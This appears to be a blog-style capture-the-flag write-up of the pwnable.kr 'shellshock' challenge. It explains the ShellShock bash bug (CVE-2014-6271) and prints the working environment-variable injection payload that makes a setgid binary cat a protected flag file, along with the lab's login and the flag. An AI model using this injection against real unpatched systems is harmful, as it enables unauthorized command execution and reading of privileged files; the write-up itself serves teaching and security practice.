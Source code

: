 ```yaml
---
author: george_pick
layout: post
title: "CVE-2014-6271: ShellShock"
excerpt: "As Wiz Khalifa once said: Knock, knock you about to get SHELLSHOCKED!"
categories: [pwn practice]
---
```


> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :)
>
> `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

## Given

All we're given in this is a ssh login command, and it's password:

* `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

The tittle of the challenge, combined with the hint suggests we're going to be dealing with something relating to "shellshock" and Bash.

Some quick googling for "Bash shellshock" leads us to the following:
* [National Vulnerability Database on CVE-2014-6271 (a.k.a "ShellShock")](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [Wikipedia page on ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

OK - so it seems like we're going to have to take advantage of a vulnerable bash binary, by storing a command inside an environment variable that will get unintentionally executed?

## First, lets get on the box

```bash
...
shellshock@pwnable:~$
```

OK - we're on.

## Look around

```
...
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
...
```

OK - so we have our flag file, a binary, it's source code, and an executable "bash". I imagine this is a specific version of bash that is vulnerable, as opposed to the system itself running that version, because that'd be bad :)

We can check. System's bash version:

```bash
bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

vs the given `bash` binary's version:

```bash
./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Ooof - 2011. From the mentioned wikipedia page, we can use the command given from the initial report to test for vulnerability:

System:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

Vs given:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

Yeet!

## Inspect files

Running the binary just yields:

```bash
./shellshock
shock_me
```
And then it quits.

Looking at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

setresuid [man page](http://man7.org/linux/man-pages/man2/setresgid.2.html):
>
> ```
>       int setresuid(uid_t ruid, uid_t euid, uid_t suid);
>       int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
> ```
>
> `setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
>
> `setresgid()` sets the real GID, effective GID, and saved set-group-ID of the calling process

If we look at the `shellshock` binary:

```bash
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```

We see it has the same ownership/access as our flag file:

```bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
```

So, from the `shellshock` binary's user+group, we'd be able to just `cat` the flag (which we can't do as the default shellshock user).

## Takeaway
We need to arbitrarily get the `shellshock` program to execute a `cat /home/shellshock/flag`.


## Closer look at the ShellShock vulnerability
[This](https://fedoramagazine.org/shellshock-how-does-it-actually-work/) Fedora Magazine article does a pretty good job of explaining in layman's terms what the vulnerability is; I'd recommend reading it.

In a nutshell:
* Bash is what we see as a terminal prompt, but also scripting language
* Can define functions, accordingly
* Can use `bash -c` to run a command in a new instance/subprocess of bash.
* This only inherits **the user's environment**, not function definitions (instead, use `export -f <func>; bash -c <cmd>`)

_However_, how bash does this is sketchy because the subprocess still has no notion of inheriting functions, only environment variables. So it needs to create just a regular ol' bash environment variable with our function.

The vulnerability is that bash didn't actually stop after it read a functions (i.e. environment variable) definition. So you could shove additional commands/anything you want and they'd be executed.

That's why the following prints both echo statements:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

We define our "function":

```bash
() { :;}; ...
```

Which is just a nameless function that does nothing (`:`) and that's it. However, we then add it's closing brace and `;`, after which we inject our "attack" (becuase _we can_):

```bash
... echo vulnerable' ...
```

Then, we specify our subprocess, which will need to inherit this new environment variable, and in the process, executing our attack:

```bash
... ./bash -c "echo this is a test"
```

Altogether:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
---------------  ---------------  -------------------------------
 env variable     attack that                   subprocess that is to load our
  to 'inherit'    gets executed                 totally legit "environment variable"
                  bc the vuln
                  when reading env vars
```

So, then, it's clear what we need to get the shellshock to spit out our flag:
* "Attack" is to cat the flag file
* subprocess is to run the shellshock file, which gets the proper user/group access to the file

```bash
env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Flag is `only if I knew CVE-2014-6271 ten years ago..!!`
